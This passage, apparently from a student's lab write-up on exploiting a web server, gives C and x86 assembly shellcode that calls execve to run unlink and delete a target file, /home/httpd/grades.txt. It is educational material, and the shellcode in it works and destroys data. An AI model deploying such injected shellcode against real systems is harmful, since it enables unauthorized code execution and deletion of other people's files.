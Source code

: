     the '\n' will be replaced by a termination character, causing our injected code to fail.

    Thus, we need to consider a more complex approach, i.e., using the 'execve' syscall.

    To use the 'exeve' syscall to execute the 'unlink' function, we need a c code as this

    ```c
    char *argv[3]={"/usr/bin/unlink","/home/httpd/grades.txt",NULL};
    execve(argv[0],argv,(char *)NULL);
    /* which is equivalent to */
    execve("/usr/bin/unlink",argv,(char *)NULL);
    ```

    So that we modify the [shellcode.S](lab1/shellcode.S) as following:

    ```asm
    include <sys/syscall.h>
    #define STRING  "/usr/bin/unlinkA/home/httpd/grades.txt"
    #define STRLEN  38      
    #define SECOND_ARG  16  /* the start offset of argv[1], the targeted file */
    #define ARGV    (STRLEN+1)
    #define ENVP    (ARGV+8)

    .globl main
            .type   main, @function

    main:
            jmp     calladdr

    popladdr:
            popl    %esi
            movl    %esi,(ARGV)(%esi)       /* set up argv pointer to pathname */
            leal    (SECOND_ARG)(%esi),%ebx
            movl    %ebx,(ARGV+4)(%esi)
            xorl    %eax,%eax               /* get a 32-bit zero value */
            movb    %al,(SECOND_ARG-1)(%esi)          /* seperate /usr/bin/unlink and /homehttpd/grades/txt */
            movb    %al,(STRLEN)(%esi)      /* null-terminate our string */
            movl    %eax,(ENVP)(%esi)       /* set up null envp */

            movb    $SYS_execve,%al         /* syscall arg 1: syscall number */
            movl    %esi,%ebx               /* syscall arg 2: string pathname */
            leal    ARGV(%esi),%ecx         /* syscall arg 2: argv */
            leal    ENVP(%esi),%edx         /* syscall arg 3: envp */
            int     $0x80                   /* invoke syscall */

            xorl    %ebx,%ebx               /* syscall arg 2: 0 */
            movl    %ebx,%eax
            inc     %eax                    /* syscall arg 1: SYS_exit (1), uses */
                                            /* mov+inc to avoid null byte */
            int     $0x80                   /* invoke syscall */

    calladdr:
            call    popladdr
            .ascii  STRING
    ```
